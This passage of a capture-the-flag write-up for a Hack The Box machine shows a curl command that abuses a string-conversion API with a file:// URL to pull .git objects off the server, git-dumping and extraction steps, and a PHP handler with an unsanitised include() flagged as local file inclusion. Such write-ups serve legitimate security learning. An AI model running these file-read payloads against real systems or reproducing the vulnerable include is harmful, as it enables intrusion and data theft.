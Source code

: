 ```bash
 113   │     #Download file
 114   │     curl -s 'http://api.haxtables.htb/v3/tools/string/index.php' -H 'Content-Type: application/json' -
       │ -data-binary "{\"action\": \"str2hex\", \"file_url\": \"file:///var/www/image/.git/$objname\"}" | jq .
       │ data | xxd -ps -r > "$target"
```

-   `| jq .data` - This pipes the output of the previous command to `jq`, which is used to extract the `data` field from the JSON response returned by the API. The `.` refers to the root of the JSON document and `data` is the name of the field to be extracted.
-   `| xxd -ps -r > "$target"`- This pipes the output of the `jq` command to `xxd`, which is used to convert the hexadecimal output to binary. The `-ps` option specifies that the input is in plain hexadecimal format, and the `-r` option specifies that the output should be in binary format. The resulting binary data is redirected to a file whose name is specified by the `$target` variable.

```bash
./gitdumper.sh 'http://encoding.htb/images/.git/' git
```


![image](https://0xc0rvu5.github.io/docs/assets/images/20230309070714.png)

![[Pasted image 20230309071540.png]]

- Next we will try to recover the incomplete git repository.

#### `extractor.sh`
- [[https://github.com/internetwache/GitTools/tree/master/Extractor]]

```bash
wget https://raw.githubusercontent.com/internetwache/GitTools/master/Extractor/extractor.sh

chmod 700 extractor.sh

./Scripts/extractor.sh git/ extracted
```

![image](https://0xc0rvu5.github.io/docs/assets/images/20230309071728.png)


#### `LFI` due to no sanitation.

```bash
cat action_handler.php

<?php

include_once 'utils.php';

if (isset($_GET['page'])) {
    $page = $_GET['page'];
    include($page);

} else {
    echo jsonify(['message' => 'No page specified!']);
}

?>
```
